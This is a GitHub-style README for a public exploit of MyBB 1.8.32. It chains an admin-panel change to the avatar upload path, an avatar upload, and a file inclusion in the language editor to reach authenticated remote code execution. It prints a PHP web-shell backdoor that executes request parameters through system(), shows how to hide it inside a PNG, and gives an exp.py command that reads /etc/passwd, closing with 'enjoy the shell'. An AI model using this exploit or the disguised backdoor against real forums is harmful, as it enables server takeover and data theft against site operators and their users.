

# MyBB 1.8.32 - Chained LFI Remote Code Execution (RCE) (Authenticated)

 - exploit database exp [MyBB 1.8.32 - Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/51213)
 - detailed analyse to [mybb 1.8.32 代码审计 + LFI RCE 复现](https://fdlucifer.github.io/2023/01/17/mybb1-8-32-LFI-RCE/)

(1). An RCE can be obtained on MyBB's Admin CP in Configuration -> Profile Options -> Avatar Upload Path. to change Avatar Upload Path to /inc to bypass blacklist upload dir.

(2). after doing that, then we are able to chain in "admin avatar upload" page: http://www.mybb1832.cn/admin/index.php?module=user-users&action=edit&uid=1#tab_avatar, and LFI in "Edit Language Variables" page: http://www.mybb1832.cn/admin/index.php?module=config-languages&action=edit&lang=english.

(3). This chained bugs can lead to Authenticated RCE.
(note). The user must have rights to add or update settings and update Avatar. This is tested on MyBB 1.8.32.

## Exp Usage:

1. first choose a png file that size less than 1kb
2. then merge the png file with a php simple backdoor file using the following commands

``` bash
mac@xxx-2 php-backdoor % cat simple-backdoor.php 
<?php
if(isset($_REQUEST['cmd'])){
        echo "<getshell success>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "<getshell success>";
        phpinfo();
}
?>
mac@xxx-2 php-backdoor % ls     
simple-backdoor.php     test.png
mac@xxx-2 php-backdoor % cat simple-backdoor.php >> test.png 
mac@xxx-2 php-backdoor % file test.png 
test.png: PNG image data, 16 x 16, 8-bit/color RGBA, non-interlaced
```

3. finally run the following commands to run the exp script to get RCE output! enjoy the shell...

``` bash
python3 exp.py --host http://www.xxx.cn --username admin --password xxx --email xxx@qq.com --file avatar_1.png --cmd "cat /etc/passwd"
```

 - 
 - 
 - 

## reference

 - [mybb 1.8.32 RCE in admin panel report](https://twitter.com/yelang123x/status/1613433380980547584)
 - [MyBB](https://en.wikipedia.org/wiki/MyBB)
 - [MyBB github](https://github.com/mybb/mybb)
 - [记一次mybb代码审计](https://xz.aliyun.com/t/7213)
 - [mybb bugs in exploit database](https://www.exploit-db.com/search?q=mybb&type=webapps&platform=php)